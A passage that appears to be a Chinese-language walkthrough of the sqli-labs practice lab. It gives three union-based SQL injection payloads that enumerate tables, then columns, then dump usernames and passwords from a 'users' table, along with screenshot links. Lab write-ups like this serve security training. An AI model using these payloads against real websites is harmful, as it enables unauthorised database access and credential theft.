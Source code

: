 

**爆表名**

```sql
?id=-1' union select 1,group_concat(table_name) ,3 from information_schema.tables where table_schema=database()--+
```

![image-20201105202757881](sqli-labs1-20/image-20201105202757881-1604667081398.png)



**爆列名**

```sql
?id=-1' union select 1,group_concat(column_name) ,3 from information_schema.columns where table_name='users'--+
```

![image-20201105204014145](sqli-labs1-20/image-20201105204014145-1604667081398.png)



**爆数据**

```sql
?id=-1' union select 1,group_concat(id,username,password) ,3 from users--+
```

![image-20201105203923813](sqli-labs1-20/image-20201105203923813-1604667081398.png)


